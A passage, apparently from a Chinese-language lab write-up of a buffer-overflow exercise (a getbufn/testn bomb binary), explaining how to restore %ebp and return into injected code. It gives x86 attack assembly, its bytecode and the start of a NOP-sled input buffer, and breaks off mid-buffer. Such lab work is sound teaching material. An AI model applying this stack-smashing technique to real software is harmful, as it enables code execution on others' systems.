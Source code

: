 我们要保证跳转到的地址大于%esp，这样才能进入我们的攻击代码。由于它范围给的比较宽，所以取一个比上面5个%esp值都大一些的就ok了。这里选择0x556830b8  
接下来就是要复原%ebp，这个可以通过%ebp和%esp的关系得出：我们看上面5次循环中%esp和%ebp的差值都是固定的（0x248），所以可以知道在push %ebp之前%esp和%ebp之间的差值也是固定的（因为后面%esp只是减去了一个固定值0x4 + 0x218）。在getbufn跳转到我们的攻击代码处时，%esp的状态其实是没变的（因为%esp是通过%ebp恢复的，%ebp是通过栈恢复的，所以%ebp是被污染了的），刚好就和push %ebp之前%esp的值是一样的，所以我们可以通过%esp恢复%ebp。  
使用gdb可以知道，push %ebp之前%esp和%ebp之间的差值是%ebp = %esp + 0x28  
攻击代码：
```
lea    0x28(%esp),%ebp
mov    $0x8048e3a,%eax  # testn中原本要返回的位置
push   %eax
mov    $0x3bb88bc7,%eax
ret
```
字节码：8d 6c 24 28 b8 3a 8e 04 08 50 b8 c7 8b b8 3b c3
```
00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	b8 3a 8e 04 08       	mov    $0x8048e3a,%eax
   9:	50                   	push   %eax
   a:	b8 c7 8b b8 3b       	mov    $0x3bb88bc7,%eax
   f:	c3                   	ret  
```
buf：
```
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90
```
